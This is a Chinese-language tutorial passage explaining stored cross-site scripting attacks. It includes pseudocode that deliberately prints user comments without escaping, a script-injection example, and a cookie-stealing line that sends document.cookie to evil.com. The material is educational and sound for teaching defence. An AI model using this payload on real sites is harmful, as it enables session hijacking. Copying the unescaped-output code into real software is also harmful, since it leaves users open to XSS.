 典型的 XSS 攻击有两个阶段：

1. 为了在受害者的浏览器中运行恶意 JavaScript 代码，攻击者必须先找到一种方式将恶意代码注入到受害者访问的网页中。
2. 之后，受害者必须访问有恶意代码的网页。如果攻击者有特定的攻击目标，该攻击者可使用社会工程学结合（或）网络钓鱼的方式给受害者发送恶意网址。

要完成第一步，易受攻击的网站需要将用户的输入直接包含在它的页面中。之后攻击者便能插入恶意代码片段，这些代码将在网页中使用并被受害者的浏览器视为源代码。也有一些 XSS 攻击的变体，攻击者利用社会工程学诱导用户访问某网址，并且该网址中就包含了恶意代码。

以下是服务端伪代码片段，用于在网页中展示最近的评论：

```python
print "<html>"
print "<h1>Most recent comment</h1>"
print database.latestComment
print "</html>"
```

以上脚本很简单，作用是从数据库中取出最近的评论并放入 HTML 页面中。这段脚本默认页面展示的评论是纯文本，而不包含 HTML 标签或其他代码。这就导致了页面很容易遭受 XSS 攻击，因为攻击者可以提交包含恶意代码的评论。例如当评论的内容是以下代码：

```html
<script>
  doSomethingEvil();
</script>
```

网站服务端为访问该网页的用户提供以下 HTML 代码：

```html
<html>
  <h1>Most recent comment</h1>
  <script>
    doSomethingEvil();
  </script>
</html>
```

当受害者的浏览器加载该页面时，攻击者的恶意脚本开始执行。受害者常常不会意识到这类情形，也不能阻止这类攻击。

## 使用 XSS 攻击偷取 Cookie

不法之徒经常使用 XSS 攻击偷取 cookie。如此他们便能伪装成受害者。攻击者有多种方式将 cookie 发送到他们自己的服务器。其中一种方式是在受害者浏览器中执行以下客户端代码：

```html
<script>
  window.location = "http://evil.com/?cookie=" + document.cookie;
</script>
```

下图展示了简单 XSS 攻击的各步骤。

![Cross site scripting](https://www.acunetix.com/wp-content/uploads/2012/10/how-xss-works-910x404.png)

1. 攻击者通过在提交表单时携带恶意 JavaScript 内容，将恶意内容注入到网站的数据库中。
2. 受害者向网站服务端请求网页。
3. 网站服务端将攻击者的恶意内容作为 HTML 内容的一部分，并返回给受害者的浏览器。
4. 受害者的浏览器执行包含在 HTML 中的恶意脚本。在该场景中，它将受害者的 cookie 发送到攻击者的服务器。
5. 在 HTTP 请求抵达服务器时，攻击者只需从请求中提取受害者的 cookie 即可。
6. 攻击者可以使用刚刚偷窃的受害者 cookie 进行伪装。
